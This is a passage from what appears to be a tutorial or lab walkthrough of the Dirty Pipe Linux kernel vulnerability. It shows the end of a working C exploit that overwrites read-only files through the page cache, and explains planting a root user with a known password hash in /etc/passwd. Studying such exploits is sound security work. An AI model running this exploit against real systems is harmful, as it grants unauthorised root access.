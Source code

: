 ````
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("splice failed");
		return EXIT_FAILURE;
	}
	if (nbytes == 0) {
		fprintf(stderr, "short splice\n");
		return EXIT_FAILURE;
	}

	/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, data_size);
	if (nbytes < 0) {
		perror("write failed");
		return EXIT_FAILURE;
	}
	if ((size_t)nbytes < data_size) {
		fprintf(stderr, "short write\n");
		return EXIT_FAILURE;
	}

	printf("It worked!\n");
	return EXIT_SUCCESS;
}
````

 Once compiled, this exploit gives us a lot of control over how we abuse the Dirty Pipe vulnerability. Specifically, it lets us specify the file we want to overwrite, the offset we would like to overwrite it at, and the content we would like to insert.
 
 Bearing in mind that the exploit won't let us create files (we can only overwrite information in existing files), we first need to find a file our user can read, but that still allows us to elevate our privileges. The obvious easy choice in these conditions is /etc/passwd. Whilst password hashes are usually stored in the restricted-access /etc/shadow in modern Linux systems (as opposed to being stored traditionally in /etc/passwd), most Linux variants do still check to see if account password hashes are given in /etc/passwd. This means that we can write a user with root permissions and a known password hash directly into the passwd file!
 
 
 Let's generate a password hash and form a valid passwd entry before moving on. Pick a password then use the openssl command to create a SHA512Crypt hash of your chosen password:
 ![image](https://user-images.githubusercontent.com/64267672/158501420-3c7ed2c0-0728-492e-b604-125ba4ab7213.png)
